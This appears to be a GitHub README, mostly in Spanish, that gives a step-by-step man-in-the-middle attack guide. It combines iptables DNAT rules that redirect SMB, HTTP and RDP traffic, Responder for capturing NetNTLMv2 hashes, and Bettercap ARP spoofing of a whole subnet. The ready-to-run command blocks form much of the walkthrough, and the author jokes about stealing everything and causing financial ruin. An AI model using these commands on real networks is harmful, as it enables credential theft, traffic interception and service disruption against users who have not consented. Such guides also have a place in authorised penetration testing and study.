 # Man-In-The-Mirror
My own guide of how to integrate famous tools like Responder and Bettercap to Steal everything, Kill everyone and cause total financial ruin.


⣿⣿⣿⣿⣿⣿⣿⡿⡛⠟⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⠿⠨⡀⠄⠄⡘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⠿⢁⠼⠊⣱⡃⠄⠈⠹⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⡿⠛⡧⠁⡴⣦⣔⣶⣄⢠⠄⠄⠹⣿⣿⣿⣿⣿⣿⣿⣤⠭⠏⠙⢿⣿⣿⣿⣿⣿
⣿⡧⠠⠠⢠⣾⣾⣟⠝⠉⠉⠻⡒⡂⠄⠙⠻⣿⣿⣿⣿⣿⡪⠘⠄⠉⡄⢹⣿⣿⣿⣿
⣿⠃⠁⢐⣷⠉⠿⠐⠑⠠⠠⠄⣈⣿⣄⣱⣠⢻⣿⣿⣿⣿⣯⠷⠈⠉⢀⣾⣿⣿⣿⣿
⣿⣴⠤⣬⣭⣴⠂⠇⡔⠚⠍⠄⠄⠁⠘⢿⣷⢈⣿⣿⣿⣿⡧⠂⣠⠄⠸⡜⡿⣿⣿⣿
⣿⣇⠄⡙⣿⣷⣭⣷⠃⣠⠄⠄⡄⠄⠄⠄⢻⣿⣿⣿⣿⣿⣧⣁⣿⡄⠼⡿⣦⣬⣰⣿
⣿⣷⣥⣴⣿⣿⣿⣿⠷⠲⠄⢠⠄⡆⠄⠄⠄⡨⢿⣿⣿⣿⣿⣿⣎⠐⠄⠈⣙⣩⣿⣿
⣿⣿⣿⣿⣿⣿⢟⠕⠁⠈⢠⢃⢸⣿⣿⣶⡘⠑⠄⠸⣿⣿⣿⣿⣿⣦⡀⡉⢿⣧⣿⣿
⣿⣿⣿⣿⡿⠋⠄⠄⢀⠄⠐⢩⣿⣿⣿⣿⣦⡀⠄⠄⠉⠿⣿⣿⣿⣿⣿⣷⣨⣿⣿⣿
⣿⣿⣿⡟⠄⠄⠄⠄⠄⠋⢀⣼⣿⣿⣿⣿⣿⣿⣿⣶⣦⣀⢟⣻⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡆⠆⠄⠠⡀⡀⠄⣽⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⡿⡅⠄⠄⢀⡰⠂⣼⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

~ Responder and Bettercap -- you could have 
    one without the other, but *why* would you want to...?

Bueno lo primero es que si bien este github pretende mas que todo servirme de guia personal, por si alguien quiere utilizar o lanzar este ataque aqui mencionado, es importante tener en cuenta que no podria ser muy util en un hackeo de verdad puesto que es extremadamente ruidoso y cualquier equipo decente de seguridad lo notaria (en realidad cualquier Admin TI puesto que cuando todos los servidores caen, o pierden conexion, es comun que los usuarios se empiecen a quejar). Por lo anterior en el caso de que sea un pentest posiblemente deberias pedir permiso antes de realizarlo.

Con lo anterior aclarado, seria ideal si quien lo usara no termina en la carcel por ruidoso o sin empleo por causar la ruina financiera a su cliente ;).

### Estructura
Actualmente no cuento con un grafico aunque podria ser de mucha ayuda, basicamente la estructura del ataque es la siguiente:

Primero todo el trafico de la red ya sea que iba dirigido a una maquina interna o externa, sera redirigido a tu pc o maquina que este utilizando y que este dentro de la red. Lo segundo sera redirigir todo el trafico que entra en tu maquina a los servicios falsos que hallaz montado en maquina o algun servidor, y por ultimo deberas disfrutar del buen farm. 
(Se que posiblemente no soy el primero ni el ultimo en realizar un ataque asi, simplemente es para recordar los comandos y tratar de hacer una guia que vaya a otro nivel por que por lo general solo veras guias de Responder y Bettercap usandose por separado y unicamente viendo el trafico, sin aprovechar todo el potencial de MiTM)

### Requisitos
Lo primero es haber logrado realizar un MiTM, para esto hay una gran variedad de herramientas y ataques como por ejemplo mitm6, arp spoofing, mitm usando una piña o algun dispositivo fisico, eviltwin, karma attacks... Tambien hay otros ataques que si bien no soy propiamente mitm en su definicion mas purista, actuan muy similar para nuestro proposito como por ejemplo DNS Spoofing, LLMNR Poisoning, MDNS Poisoning, NB-BTNS, y posiblemente muchos mas que se me han olvidado o que no conozco. Para nuestro caso por sencillez y lo comun que es encontrado usaremos ARP Spoofing.

Una vez el MiTM fue conseguido lo siguiente es decidir que vamos a hacer con todo el trafico que esta entrando en nuestro pc o servidor. Podriamos realizar una gran cantidad de integraciones y acciones, la gran mayoria de tutoriales unicamente llegan hasta el primer requisito o paso, y a lo mucho llegan a mencionar que hay muchas mas cosas que se podrian hacer pero no enseñan como se podrian hacerse. Como tal para efectos practios aqui unicamente voy a optar por redirigir el trafico a los servidores de Responder para obtener hashes NetNTLMv2 pero lo visto aqui perfectamente se podria trasladar a modulos de impacket como NTLMRelayx, Burpsuite, Paginas de phishing, etc...

Ya con el objetivo decidido el tercer paso es montar los servidores o servicios como se menciona en el paso 2 y por ultimo deberemos configurar nuestras reglas enrutamiento con iptables para conseguir redirigir todo el trafico a nuestros servicios maliciosos.

### Link Start
- Lo primero que vamos a realizar es la configuracion del ruteo atravez de ip tables, lo que vamos a hacer basicamente es redirigir todo el trafico que vaya para cualquier ip y que este pasando a travez de nuestra maquina y con destino los puertos 80, 139, 445, 3389... hacia nuestra ip en nuestros respectivos puertos 80, 139, 445, 3389...  (Recientemete desarrolle un script que es capaz de configurar de manera automatica las siguientes reglas).
```
# Simplemente ejecuta el script presente en este repo de la forma ./Man-in-The-Mirror.sh [INTERFAZ] [PUERTOS]
# Un ejemplo seria ./Man-in-The-Mirror.sh eth0 80,443,445,139,3389,25
# O configura las reglas de manera manual como se indica a continuacion

# Listar nuestras reglas de iptables en la tabla nat que es la que nos interesa para ver que no halla nada raro o en conflicto
sudo iptables -L -t nat

# Agregar las reglas de prerouting para redirigir todo paquete con destino al puerto 80, 139, 445, 3389 a nuestros puertos que despues seran abiertos con Responder
# Sea nuestra ip con responder 192.168.1.22
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.22:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.22:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 139 -j DNAT --to-destination 192.168.1.22:139
sudo iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination 192.168.1.22:445
sudo iptables -t nat -A PREROUTING -p tcp --dport 3389 -j DNAT --to-destination 192.168.1.22:3389


# Ahora hay que activar el enmascaramiento para que el paquete pase a ser cosiderado propio y pueda ser modificado (O algo asi, mi especialidad no es iptables jejeje)
sudo iptables -t nat -A POSTROUTING -j MASQUERADE

```
Ya con el enrutamiento configurado sigue lo facil
- Vamos a subir los servidores de Responder, que van a estar escuchando en los puertos que anteriormente configuramos. Para esto simplemente vamos a lanzar el siguiente comando
```
# Sea nuestra interfaz conectada a la red eth0
sudo responder -I eth0 -A -v
```
Por ultimo ya con los servidores arriba lo unico que falta es conseguir el MiTM para esto vamos a usar Bettercap como antes habia mencionado
- Como tal vamos a utilizar el modulo de arp.spoof de Bettercap el cual realizara un arp spoofing redirigiendo todo el trafico del segmento seleccionado hacia nuestra ip
```
# Lo primero que vamos a realizar sera iniciar Bettercap
sudo bettercap

# Ahora deberemos validar las configuraciones y los modulos encendidos para eso podemos usar el comando help y help {modulo}
help
help arp.spoof

# Ahora encendemos los modulos secundarios que nos ayudaran a tener un mayor entendimiento de la red
net.probe on
net.sniff on

# Ahora toca ajustar el modulo de arp.spoof
set arp.spoof.internal true
set arp.spoof.fullduplex true

set arp.spoof.targets 192.168.1.0/24

# Por ultimo toca encender empezar el arp spoofing
arp.spoof on
```

Listo ya con esto deberiamos estar realizando el ataque, como se puede suponer esto se puede combinar con muchas otras herramietas y ataque como por ejemplo beef, burpsuite, sitios maliciosos, sitios de phishing, etc, etc
